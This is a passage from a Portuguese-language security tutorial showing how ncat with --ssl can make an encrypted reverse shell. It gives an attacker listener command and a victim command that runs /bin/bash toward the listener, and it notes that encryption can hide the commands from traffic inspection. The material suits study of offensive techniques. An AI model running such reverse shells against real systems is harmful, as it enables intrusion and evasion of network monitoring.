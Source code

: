 Já quando usamos o `ncat`, com o argumento `--ssl`, podemos digitar nossa requisição sem erros:

![8aaded7468f8d84b37275091000c6af3.png](img/556d19ebe22e40509048f915fb55b206.png)

Importante notar que a maioria (senão todos) os comandos do netcat são válidos no `ncat`.

Logo, podemos criar um servidor que utiliza SSL e realizar um procedimento de shell reversa com uma vítima. Em cenários em que não há inspeção de tráfego SSL/TLS, esse é um método que pode mascarar os comandos que estão sendo enviados, pois eles estarão sendo enviados criptografados.

Atacante:
```sh
ncat --ssl -nlvp 1337
```

Vítima:
```sh
ncat --ssl 127.0.0.1 1337 -e /bin/bash
```

Abaixo, o resultado do teste:

![ea92062d958acf2753186db20f14bd59.png](img/1d441cb976c544b8b0d6bce013a2d919.png)

![9a58c02d08c9fba2ff372524d54a1739.png](img/41767c0223034340b16c905a1063ed76.png)